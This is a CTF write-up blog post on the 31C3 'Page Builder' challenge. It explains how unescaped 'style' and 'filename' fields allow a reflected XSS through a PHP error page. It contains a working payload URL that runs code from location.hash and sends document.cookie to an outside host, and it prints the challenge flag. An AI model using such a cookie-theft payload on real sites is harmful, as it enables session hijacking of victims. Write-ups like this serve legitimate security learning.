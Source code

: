 ```yaml
---
title: 31C3 CTF – Page Builder writeup
author: tyage
type: post
date: 2015-01-02T00:32:50+00:00
url: /archive/p829.html
categories:
  - CTF

---
```

<p>This challenge needs only XSS but it is interesting to me 🙂</p>
<blockquote><p>
These guys have ripped off our designs and using them in their web pages builder! We’d Haxx them, don’t worry we’ll give you decent points for it. http://188.40.18.76/
</p></blockquote>
<p><a href="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png"><img data-attachment-id="831" data-permalink="https://blog.tyage.net/?attachment_id=831" data-orig-file="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png" data-orig-size="742,388" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;0&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;&quot;,&quot;caption&quot;:&quot;&quot;,&quot;created_timestamp&quot;:&quot;0&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;0&quot;,&quot;iso&quot;:&quot;0&quot;,&quot;shutter_speed&quot;:&quot;0&quot;,&quot;title&quot;:&quot;&quot;,&quot;orientation&quot;:&quot;0&quot;}" data-image-title="スクリーンショット 2015-01-02 8.40.09" data-image-description="" data-medium-file="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png" data-large-file="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png" src="http://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda-300x157.png" alt="スクリーンショット 2015-01-02 8.40.09" width="300" height="157" class="alignnone size-medium wp-image-831" /></a></p>
<p>By using the form, we could generate a page.(such as http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/filename)</p>
<p>It htmlspecialchars the &#8220;title&#8221; and &#8220;file content&#8221; but not &#8220;style&#8221; or &#8220;filename&#8221;.</p>
<p>The maximum size of &#8220;style&#8221; is 8bytes and that of &#8220;filename&#8221; is 65bytes.</p>
<p>Then, &#8220;filename&#8221; can be <code>foo.php</code> and &#8220;style&#8221; can be <code>&lt;?php a</code> so that it shows PHP error.</p>
<p>(<a href="http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/foo.php">http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/foo.php</a>)</p>
<blockquote><p>
Parse error: syntax error, unexpected &#8216;&#8221; rel=&#8221;&#8216; (T_CONSTANT_ENCAPSED_STRING) in /var/www/html/output/19c94d778563b117e18e3442e887989aea14277d/foo.php on line 10
</p></blockquote>
<p>hmm&#8230; PHP code exeution looks difficult because maximum size of &#8220;style&#8221; is 8bytes and short_open_tag is offed. (and <code>*</code> is removed from &#8220;title&#8221; and &#8220;file content&#8221;)</p>
<p>So let&#8217;s search another vulnerability.</p>
<p>We can XSS with &#8220;filename&#8221;, because the error page above prints &#8220;filename&#8221; that is not escaped!</p>
<blockquote><p>
http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/%3Cbody onload=%22eval%28location.hash.slice%281%29%29%22.php#<br />
location.href=%27http://tyage.net/%27+document.cookie
</p></blockquote>
<p>(Notice: we put the code in <code>location.hash</code> to fit in the maximum length of &#8220;filename&#8221;)</p>
<p>Now, just submit a link above in the contact form and we capture the flag!</p>
<p><code>31c3_Y0u_H4v3_F0und_My_W34k_Err0R_P01n7</code></p>
